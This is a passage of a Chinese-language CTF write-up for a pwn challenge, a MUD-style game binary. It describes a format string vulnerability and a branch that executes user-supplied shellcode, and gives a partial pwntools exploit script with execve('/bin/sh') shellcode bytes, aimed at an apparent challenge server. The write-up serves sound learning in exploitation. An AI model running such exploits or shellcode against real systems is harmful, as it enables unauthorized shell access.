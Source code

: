 程序大意是类似一个MUD游戏，输入名字，输入east、up等用命令行与游戏交互，控制主角的行动。

main函数中会首先malloc一个chunk，然后会leak出chunk的地址（即堆中D和U字符的地址）

在sub_0x400bb9函数中存在格式化字符串漏洞

```c
unsigned __int64 sub_400BB9()
{
  ...
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);
    puts("And, you wish is:");
    _isoc99_scanf("%s", &format);
    puts("Your wish is");
    printf(&format, &format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}

```

而在最后的sub_0x400ca6函数中，如果之前的D和U两个字符相同，就会直接劫持控制流。此时只需要将shellcode布置到这块堆空间就可以了。

```c
if ( *chunk == chunk[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);
  }

```

所以利用思路是：通过fs漏洞修改已知地址的D和U两个字符为相同值，然后直接读入shellcode。由于程序首先要求我们输入address，可以将要修改的地址先读入栈中，然后利用v2在栈中的相对偏移写入。

```python
from pwn import *
context.log_level = "debug"
context.arch = 'amd64'
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
# elf = ELF("./string")
# p = process("./string")
p = remote("111.198.29.45", 31504)
p.recvuntil("we will tell you two secret ...\n")
addr1 = int("0x" + p.recvline().split(" ")[-1], 16)
addr2 = int("0x" + p.recvline().split(" ")[-1], 16)
print hex(addr1),hex(addr2)

p.recvuntil("What should your character's name be:\n")
p.sendline("liwc")
p.recvuntil("So, where you will go?east or up?:\n")
p.sendline("east")
offset = 7
p.recvuntil("go into there(1), or leave(0)?:\n")
p.sendline("1")
p.recvuntil("'Give me an address'\n")
p.sendline(str(addr1))
p.recvuntil("And, you wish is:\n")

```